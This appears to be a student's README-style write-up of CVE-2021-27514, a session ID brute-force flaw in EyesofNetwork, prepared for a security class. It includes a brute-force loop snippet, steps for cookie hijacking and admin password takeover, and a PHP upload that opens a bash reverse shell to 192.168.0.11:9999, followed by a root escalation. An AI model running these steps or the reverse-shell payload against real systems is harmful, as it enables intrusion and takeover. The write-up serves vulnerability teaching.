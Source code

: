 # (CVE-2021-27514) **Authentication bypass with SessionID brute forcing**

## What software contains the vulnerability?
The vulnerability is found in version 5.3 of a program called EyesofNetwork.
## What is the vulnerability?
The program allows the sessionID to be brute-forced without an eventual timeout or cooldown to prevent excessive authentication attempts. To make brute-forcing even easier, the SessionID is ALWAYS between 8-10 numerical digits in length.

## What is EyesofNetwork?
Eyes of Network is a program designed to assist in the management of an information system. The software is designed to make use of the IT Infrastructure library process and pair it with a GUI in order to allow businesses to manage their networks, applications, commerce, data, updates, and monitor their business statistics.
## When was the exploit discovered?
**February 21st 2021**
## When was the exploit patched?
**March 12th 2021**
## How was it fixed?
The patch changed the table structure and changed the sessionID from 8-10 numerical digits to a higher number of alphanumeric char values.

## What is Brute-forcing?    
-   Brute forcing is when an attacker uses some sort of semi or fully automated program in order to try several entries until the desired value for the situation at hand is found. The method is most commonly used to obtain a password or in our case a sessionID

- Brute forcing can work in 3 main ways:
	- The program can try random values within parameters
	
	- The program can try to check values from a word list like what we all did in this very class if you used a brute force style program for assignment 4 like john the ripper
	- Or lastly or what we will demonstrate today they can follow a continuous pattern or increment value

## What is a sessionID?
-   A sessionID is a unique identifier assigned to a user upon login and represents the open session. The SessionID essentially tells the program that the system logged in is being used by the user associated with the ID.
    
-   The sessionId which was mentioned thought the presentation is the main point of concern for this vulnerability as it was too short with too low of a complexity
    
-   It is commonly accepted that most session IDs should be a minimum of 128 bits in length in order to combat the aforementioned brute force attacks.
#  How the Exploit Works
The Eyes of Network has a vulnerability in version 5.10 that has a session ID between 8 and 10 digits. This is done using a brute force method, meaning that you would start searching using session ID 10000000 and iterate up to 9999999999. This can be seen in this code: 

```python
    if rep.content.find(bytes) !=-1:
        a = int(a) + 1
        if int(a) == 99999999999:
            print("No Session_id available ... ")
            break
    else:
        print ("Yepa !")
        print("")
        print('\x1b[6;30;42m' + '[+] session_id FOUND ! '  + a + '\x1b[0m')
        print("")
        break
```
Where rep.content is the response from a GET request using the current iteration of the session ID. From here there are many different exploits available and we ran through the following ones to test these vulnerabilities: 

## Eyes of Network Access without Credentials 
Logging in using the obtained session ID is fairly straight forward. The following image is using the developer tools built into google chrome, you can navigate to the application tab and click on cookies:
![image](https://user-images.githubusercontent.com/71412992/112726764-838b2c80-8ef5-11eb-84cb-9cee09076cd6.png)

You will need to fill in all of these fields and put in the session ID that was obtained. The other fields are filled out based on the type of user the session ID belongs too. This would require trial and error or some inside knowledge of how Eyes of Network user information. 

Once the fields are filled out properly, you refresh the cookies and then the page and you will now be on the main dashboard page of the site with the same access as the user whos session ID you used. 

## Privilege Escalation 
This exploit involves allowing a restricted user to gain access to an admin account. Once a user has logged in, (This can be done using the session ID or with real credentials if the user has access to the site) this user will navigate to the profile tab on the eyes of network portal. Once here they have to option to change their password. The put in and password they would like. 

Next using a proxy interrupter, they interrupt the POST request to change the password:

![image](https://user-images.githubusercontent.com/71412992/112727172-8424c280-8ef7-11eb-8abf-9956d3f645e6.png)

Using the Admin session ID, user_name,user_id, group_id the user is able to change the password of the admin immediately and now has access to that account through regular log in. 

## Root Access to Eyes of Network OS (CentOS)
The last vulnerability that we explored with this exploit was gaining root access on the Eyes of Network operating system. This vulnerability could result in massive loss of data and destruction.  The following code will POST a .php file disguised as a .XML file to a directory on system. A GET request is then called on that file which will cause it to execute: 

```python
postreq=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data, verify=False)
rep2=postreq

...

requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies, verify=False)

```
The php file will give a specified IP and Port interactive rights to the OS: 

```
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.0.11/9999 0>&1'");
```
Here we can see that the file has been successfully uploaded 

![image](https://user-images.githubusercontent.com/71412992/112731199-3fefed00-8f0c-11eb-8485-9e4b1914000c.png)

During the time the code is running you will listen on the port specified in the code (on the machine that with the specified IP). Once the GET request is run you will be logged in as a user. 
Moving to the /tmp directory you are then able to do a os.execute in order to escape interpreters and gain root access. This can all be seen here: 
![image](https://user-images.githubusercontent.com/71412992/112731497-f7393380-8f0d-11eb-932d-c97a413d1e6a.png)

It should be noted that the ITSM module needs to be installed on Eyes of Network for this portion of the explot to work as this is what allows XML upload. 


## References 

[1] Eyes of Network website https://www.eyesofnetwork.com/en

[2] Exploit Guide and walkthrough  https://ariane.agency/site/index.php/2021/02/23/quand-tu-trouves-une-0day-pendant-un-audit-d/

[3] Explot repository https://github.com/ArianeBlow/exploit-eyesofnetwork5.3.10/blob/main/PoC-BruteForceID-arbitraty-file-upload-RCE-PrivEsc.py

[4] Eyes of Network Community Discussion https://github.com/EyesOfNetworkCommunity/eonweb/issues/87

[5] Eyes of Network Eonweb repository for ITSM https://github.com/EyesOfNetworkCommunity/eonweb

[6] Linux preivileges https://guif.re/linuxeop

[7] Exploit Fix https://github.com/EyesOfNetworkCommunity/eonweb/commit/6d1be13ba36fedfc8cdcbe9c30e99d4e0ca7db1b?fbclid=IwAR0X3qOSDuq1Ke_uAHDjKriPMAfSDWhi4IU6QZWKTuo-Zj4R1sV_TG7hPTo#

[8] NIST Vulnerbility https://nvd.nist.gov/vuln/detail/CVE-2021-27514

[9] SessionID Length https://owasp.org/www-community/vulnerabilities/Insufficient_Session-ID_Length#:~:text=Description,brute%2Dforce%20session%20guessing%20attacks.


